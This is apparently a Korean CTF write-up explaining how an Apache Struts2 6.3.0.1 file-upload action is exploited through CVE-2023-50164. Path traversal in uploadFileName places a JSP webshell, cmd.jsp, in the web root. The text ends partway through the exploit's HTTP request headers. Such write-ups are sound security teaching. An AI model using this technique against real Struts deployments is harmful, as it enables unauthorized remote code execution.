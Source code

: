 ```java
                FileUtils.copyFile(upload, destFile);
                addActionMessage("File uploaded successfully to " + destFile.getAbsolutePath());

                return SUCCESS;
            } catch (Exception e) {
                addActionError(e.getMessage());
                e.printStackTrace();
                return ERROR;
            }
        } else {
            return INPUT;
        }
    }
    ...
}
```
파일 업로드 기능이 존재하고, `/uploads` 경로에 파일이 업로드 된다. 하지만, `uploads` 경로와 `webapps` 경로가 동일한 디렉터리에 존재하여 해당 경로에 접근할 수 없었다.    
     
확장자 검사를 하지 않고 있어 jsp 파일 업로드가 가능했지만, Path 조작이 필요하다고 생각했다. 
    
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    ...
    <properties>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <maven.compiler.source>17</maven.compiler.source>
        <maven.compiler.target>17</maven.compiler.target>
        <struts2.version>6.3.0.1</struts2.version>
        <jetty-plugin.version>9.4.46.v20220331</jetty-plugin.version>
        <maven.javadoc.skip>true</maven.javadoc.skip>
        <jackson.version>2.14.1</jackson.version>
        <jackson-data-bind.version>2.14.1</jackson-data-bind.version>
    </properties>
    ...
</project>
```
`pom.xml`을 살펴보니 `struts2 6.3.0.1` 버전을 사용하고 있었고, 해당 버전에서 <a href="https://github.com/wy876/POC/blob/main/Apache%20Struts2%20CVE-2023-50164.md">CVE-2023-50164</a>가 존재했다. 파라미터 명을 Upload로 수정하고, uploadFileName에서 Path를 조작하면 원하는 경로에 파일 업로드가 가능해진다.   
      
파일 업로드를 수행한 후, `/cmd.jsp`에 접근하여 웹쉘을 실행시켜 플래그를 획득할 수 있다.      
           
### Exploit Code            
```
POST /main.action;jsessionid=AFB0B463650F0424AD04A78F8EEEA4A9 HTTP/1.1
Host: 52.231.137.29:8380
Content-Length: 1900
Cache-Control: max-age=0
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: ko-KR
Upgrade-Insecure-Requests: 1
Origin: http://52.231.137.29:8380
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydNmhuHKBYPqVrS4m
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
```